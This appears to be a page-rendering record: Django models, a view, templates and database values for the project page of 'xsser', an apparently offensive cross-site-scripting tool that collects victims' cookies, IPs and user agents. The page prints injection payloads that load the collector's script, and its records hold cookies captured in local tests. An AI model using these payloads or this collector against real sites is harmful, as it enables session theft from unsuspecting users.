

/project/?id=2 (signed in), run on the app's committed database (2 pictures, top to bottom).
### core/models.py (models this page shows, shortened)
class XssProject(models.Model):
    user = models.ForeignKey(User)
    title = models.CharField(max_length=30)
    records = models.ManyToManyField(Record, blank=True, null=True)
    create_time = models.DateTimeField(auto_now_add=True)
    keep_session = models.BooleanField(default=False)
    custom_js = models.BooleanField(default=False)
    custom_js_content = models.TextField(blank=True)

class Record(models.Model):
    create_time = models.DateTimeField(auto_now_add=True)
    cookie = models.TextField(blank=True)
    user_agent = models.CharField(max_length=50, blank=True)
    ip = models.IPAddressField(blank=True)
    url = models.URLField(blank=True)
    title = models.CharField(max_length=50, blank=True)

### core/views.py (the view)
# urls.py: url(r'^project/$', 'core.views.project_detail', name="project_detail"),
@login_required(login_url="/login/")
def project_detail(request):
    project_id = request.GET.get("id", "-1")
    try:
        p = XssProject.objects.get(pk=int(project_id), user=request.user)
    except XssProject.DoesNotExist:
        raise Http404
    if "csrftoken" in request.COOKIES:
        token = request.COOKIES["csrftoken"]
    else:
        token = ""
    return render(request, "core/project_detail.html", {"project": p, "base_url": BASE_URL, "token": token})

### templates/core/project_detail.html (shortened to what this page needs)
{% extends "base.html" %}
{% block body %}
{% include "_nav_bar.html" %}
<div class="container">
    <div class="project">
        <div class="project_description">
            <h3>{{ project.title }}</h3>
            <p>Create time:{{ project.create_time|date:"Y-m-d H:i:s" }}&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-trash"></span>
                <a href="javascript:void(0)" onclick="delete_project()">Delete this project</a>&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-asterisk"></span><a href="/project/settings/{{ project.id }}">Settings</a>
            </p>
            <hr/>
            <div class="instruction">
                <p>How to use?</p>
                <p><code>&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p><code>&lt/textarea&gt'"&gt&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p>You can test your code <a href="/project/test/" target="_blank">here</a></p>
            </div>
        </div>
        <hr/>
        <div class="project_records">
            <div class="panel panel-default">
                <div class="panel-body">
                    {% if not project.records.all %}
                    <p>No cookies</p>
                    {% else %}
                        {% for record in project.records.all reversed %}
                            <div class="record">
                                <p>Record id:<span class="badge">{{ forloop.counter }}</span></p>
                                <p>Create time:{{ record.create_time|date:"Y-m-d H:i:s" }}</p>
                                <p>Title:<code>{{ record.title }}</code></p>
                                <p>Url:<code>{{ record.url }}</code></p>
                                <p>Cookie:
                                <code>{{ record.cookie }}</code></p>
                                <p>User agent:<code>{{ record.user_agent }}</code></p>
                                <p>ip:<code>{{ record.ip }}</code></p>
                                <hr/>
                            </div>
                        {% endfor %}
                    {% endif %}
                </div>
            </div>
        </div>
    </div>
</div>
{% endblock %}

### templates/_nav_bar.html (shortened to what this page needs)
<div class="navbar navbar-default navbar-static-top" role="navigation">
    <div class="container">
        <div class="navbar-header">
            <a class="navbar-brand" href="/my_projects/"><span style="font-size:130%;color:black;">xsser</span></a>
        </div>
        <div class="navbar-collapse collapse">
            <ul class="nav navbar-nav navbar-right">
                {% if user.is_authenticated %}
                <li class="dropdown">
                    <a href="#" class="dropdown-toggle" data-toggle="dropdown">{{ user.username }}
                        <b class="caret"></b></a>
                </li>
                {% else %}
                <li class="active"><a href="/login/"><span class="glyphicon glyphicon-user"></span>&nbsp;登录</a>
                </li>
                {% endif %}
            </ul>
        </div>
    </div>
</div>

### data on the page
XssProject: title "1111", create_time "2014-04-29 16:43:20", id "2"
Record: create_time "2014-04-29 20:03:20", url "http://127.0.0.1:8000/xss/?id=2", cookie "csrftoken=ugKhx6GIGvA7MqYkdDS3pmPTHbHInQsp", user_agent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.116 Safari/537.36", ip "127.0.0.1"
Record: create_time "2014-04-29 17:36:17", title "Xss test page", url "http://127.0.0.1:8000/project/test/", cookie "csrftoken=RsCxlVdRQOHRcX3schI2W6O0bvb3uV5C; test_cookie=\"this is a test cookie\"", user_agent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.116 Safari/537.36", ip "127.0.0.1"
Record: create_time "2014-04-29 17:34:43", title "Xss test page", url "http://127.0.0.1:8000/project/test/", cookie "csrftoken=RsCxlVdRQOHRcX3schI2W6O0bvb3uV5C; test_cookie=\"this is a test cookie\"", user_agent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.116 Safari/537.36", ip "127.0.0.1"
Record: create_time "2014-04-29 17:32:41", title "Xss test page", url "http://127.0.0.1:8000/project/test/", cookie "csrftoken=RsCxlVdRQOHRcX3schI2W6O0bvb3uV5C; test_cookie=\"this is a test cookie\"", user_agent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.116 Safari/537.36", ip "127.0.0.1"
Record: create_time "2014-04-29 17:31:22", title "create project", url "http://127.0.0.1:8000/project/test/", cookie "csrftoken=RsCxlVdRQOHRcX3schI2W6O0bvb3uV5C; test_cookie=\"this is a test cookie\"", user_agent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.116 Safari/537.36", ip "127.0.0.1"

### other printed values
{{ user.username }} "root"
{{ base_url }} "http://127.0.0.1:8000/"
